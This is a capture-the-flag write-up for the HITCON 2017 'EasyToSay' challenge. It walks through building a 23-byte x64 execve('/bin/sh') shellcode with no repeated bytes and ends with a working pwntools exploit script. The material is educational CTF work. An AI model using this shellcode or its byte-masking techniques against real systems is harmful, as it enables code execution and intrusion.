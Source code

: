 ```yaml
---
title: "EasyToSay | Hitcon2017"
categories: ["pwn"]
tags: ["shellcode"]
Points: 144
Solves: 139
---
```


This is a writeup explaining how I wrote a shellcode payload bypassing a size limit and avoiding repeated bytes.

## Overview
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.


## Solution

Here I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode
First lets try a basic x64 shellcode and see if there are any repeating bytes. That looks something like:
1. put '/bin/sh\x00' on the stack
2. put that stack address in `rdi` (filename)
3. make `rsi` (argv) equal 0
4. make `rdx` (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:

```nasm
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's
As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.

```nasm
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:

```nasm
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

Closer! Now we only have to somehow remove the extra `/`.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.

```nasm
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!


## Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated" % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```